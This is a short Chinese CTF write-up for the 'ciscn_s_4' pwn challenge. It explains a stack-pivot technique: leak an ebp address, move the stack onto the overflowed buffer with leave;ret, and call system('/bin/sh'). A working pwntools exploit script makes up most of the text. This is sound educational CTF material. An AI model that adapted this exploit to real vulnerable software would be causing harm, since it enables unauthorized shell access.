


1. 存在漏洞函数,`s`变量存在溢出,但是长度不够,考虑栈迁移
2. 通过溢出打印(动态调试也可以)`ebp`栈上地址,计算得出`s`的地址,栈迁移到`s`的位置上
3. 向`s`中写入`payload`得到`shell`



计算得到偏移量为`0x38`

```python
from pwn import *
context.log_level = 'debug'
elf = ELF('./ciscn_s_4')
io = process('./ciscn_s_4')
#io = gdb.debug('./ciscn_s_4')
padding = b'A'*0x27+b'B'
payload1 = padding
leave_ret = 0x08048562
io.sendafter(b'Welcome, my friend. What\'s your name?\n',payload1)
io.recvuntil(b'B')
s_addr = u32(io.recv(4))-0x38
print('s_addr->',hex(s_addr))

payload2 = p32(0)+p32(elf.plt['system'])+p32(0)+p32(s_addr+0x10)+b'/bin/sh\x00'
payload2 = payload2.ljust(0x28,b'\x00')
payload2 += p32(s_addr)+p32(leave_ret)
io.send(payload2)

io.interactive()
```

详细关于栈迁移在之前随笔中有详解,不再赘述

有几个注意点:

1. `padding`中`B`起到标识位作用,方便后续交互
2. `payload2`开头`p32(0)`是为了填充`leave`指令
3. `b'/bin/sh'`的地址计算与`b\x00'`截断
